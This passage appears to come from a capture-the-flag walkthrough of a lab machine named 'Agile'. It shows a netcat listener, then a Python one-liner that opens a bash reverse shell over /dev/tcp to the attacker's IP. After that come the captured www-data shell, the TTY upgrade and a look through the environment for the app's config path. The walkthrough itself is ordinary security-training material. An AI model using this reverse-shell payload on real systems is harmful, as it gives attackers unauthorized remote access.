 ![Shell](images/port_80_shell.png)

```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
```

```bash
import os; os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1'")
```

![Reverse Shell](images/port_80_revshell.png)

```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.203] 33584
bash: cannot set terminal process group (1073): Inappropriate ioctl for device
bash: no job control in this shell
(venv) www-data@agile:/app/app$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl z
stty raw -echo; fg
```

```bash
(venv) www-data@agile:/app/app$ cat superpass/app.py | grep config
...
def load_config():
    config_path = os.getenv("$")
    with open(config_path, 'r') as f:
            app.config[k] = v
...
```

```bash
(venv) www-data@agile:/app/app$ env
env
SERVER_SOFTWARE=gunicorn/20.1.0
PWD=/app/app
LOGNAME=www-data
SYSTEMD_EXEC_PID=1073
HOME=/var/www
LANG=C.UTF-8
VIRTUAL_ENV=/app/venv
CONFIG_PATH=/app/config_prod.json
INVOCATION_ID=24b6e873b7104fc89642217d2e678fbd
TERM=xterm
USER=www-data
SHLVL=3
VIRTUAL_ENV_PROMPT=(venv) 
PS1=(venv) ${debian_chroot:+($debian_chroot)}\u@\h:\w\$ 
JOURNAL_STREAM=8:32583
```